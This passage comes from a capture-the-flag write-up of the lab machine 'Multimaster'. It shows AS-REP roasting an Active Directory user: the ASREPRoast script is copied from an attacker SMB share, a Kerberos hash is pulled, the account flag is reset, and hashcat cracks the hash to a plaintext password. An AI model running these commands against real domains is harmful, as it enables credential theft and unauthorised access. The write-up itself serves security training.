 Or I can use a harmj0y tool, [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast). There’s a `.ps1` file in the repo. Copy it to SMB to Multimaster, import it, and run it:

```
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\ASREPRoast.ps1 .
*Evil-WinRM* PS C:\programdata> . .\ASREPRoast.ps1
*Evil-WinRM* PS C:\programdata> Get-ASREPHash -Domain megacorp.local -Username jorden
$krb5asrep$jorden@MEGACORP.LOCAL:217d8dd459813386d9a7f5f0fa4c3cf1$094bc95da47bee5ef4946e9384e97277961c3069d86a102d4e79b5fed4881db4898d2e1ae38d81fb7327a707a58f771965cad70c3e2f3651e330dd2d85725e343928ae06de4179cee031d580c5c158a55a39bbf4fd3a16f2ec2d1f9377427153e69302d1c6e90cd82f8b4d0ab177c2e370fa051d03480d18dbb52d14c08f79a14cc34257a60e8f2b5af3d8306b26cfc63059f10c5ebf1fde99e9ce6c194132a99769fcacfad6ce01e90764f9df2179ec5f496846f7ae3b5ea307d37aac65cc1e7b91ae4bb1a48bb9adeead8ca5957fb2cb07f1154af572e7ef767cd8e89a834fe5acb0e2218bb4459710ba56e34a5044

```

The hash format that comes out of the second method requires adding `$23` towards the beginning to make it look like the first and work in `hashcat`.

Either way, I’ll set jorden back:

```
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity jorden -XOR @{useraccountcontrol=4194304} -Verbose
Verbose: [Get-DomainSearcher] search string: LDAP://MULTIMASTER.MEGACORP.LOCAL/DC=MEGACORP,DC=LOCAL
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=jorden)(name=jorden)(displayname=jorden))))
Verbose: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'jorden'

```

And verify it no longer works:

```

root@kali# GetNPUsers.py -no-pass -dc-ip 10.10.10.179 MEGACORP/jorden
Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for jorden
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set

```

### Crack Hash

Now `hashcat` can crack this pretty quickly:

```

root@kali# hashcat -m 18200 jorden.hash /usr/share/wordlists/rockyou.txt --force
...[snip]...
$krb5asrep$23$jorden@MEGACORP.LOCAL:c6e1735f291d71135278005a61a8e78e$771ee4486ddcf18fdf2ee216bf2e66cff076ef6907a1154f3458c7e5ef2f65038263f9ce459cfa964ad0057b53676f4c326e5d380910e
48d9fee2c585819d70cea63442b035359ef6f9cb3a8cfdfffe981c8e7c0aaaf913f9bf8d8df96147b30f15b71e5a9541dcdfcfef20670edfb46b2973917d661fadcc48df2aa9f72c1586a1bbcbff4420f89c4360125f1a9a23
12466f69201ed5035db7952bb6eaa3cec0edf0888e958e0180333ba11fde7e0448836d87fe3090152980a95c1e6c1a151a83603f1380ea7c306cfbd74fdd19a507c36c1d38db5c7231e9fee7bdbe73ad1dedac61c2b1e9d3ef
2e36834206c2130:rainforest786
...[snip]...

```
